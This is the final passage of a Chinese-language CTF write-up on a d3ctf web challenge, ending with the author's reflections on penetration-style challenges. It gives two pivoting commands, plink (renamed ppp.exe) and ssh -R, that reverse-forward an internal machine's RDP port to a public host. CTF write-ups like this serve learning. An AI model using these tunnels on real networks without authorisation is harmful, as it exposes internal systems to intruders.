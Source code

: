 ![拿到flag](img/a1b25d8f0ccd6ddcd6aef5d0eab33e5f.png)

### plink内网穿透端口转发

命令如下（）

```
ppp.exe user@公网ip -pw password -P 22 -2 -4 -T -N -C -R 0.0.0.0:12345:内网ip:3389 
```

这样也可以把内网端口转发到公网的12345端口上

### ssh内网穿透端口转发

如果题目中的外网web服务器是一台linux机器并且配置了ssh，还可以用ssh命令进行端口转发

```
ssh -fqNR 0.0.0.0:公网端口:内网ip:内网端口 root@公网ip 
```

然后输入密码后按回车也可以转发到公网端口上

## 总结

这次的d3ctf web题目的质量是真的高，因为有鱼哥这些大佬在，所以肯定题目是很精致的。
单独分析这题的主要原因，一个是因为这次做题时间少，没办法全部做完，在做的题里面挑了这题分析。另一个是为这题是类渗透题目，个人感觉ctf的正确导向应该是要"引导ctfer逐渐走向真实世界"，而不应该是脑洞或者需要很冷门技巧的题目，像这种类渗透题目就很合适纯web手去学习渗透的过程掌握渗透基本操作并且考虑以后的转型问题，毕竟ctf的最重要目的还是引导大家找到以后适合自己的网络安全工作方向。感谢d3ctf出题人，感谢各位辛苦付出办了如此高质量的比赛。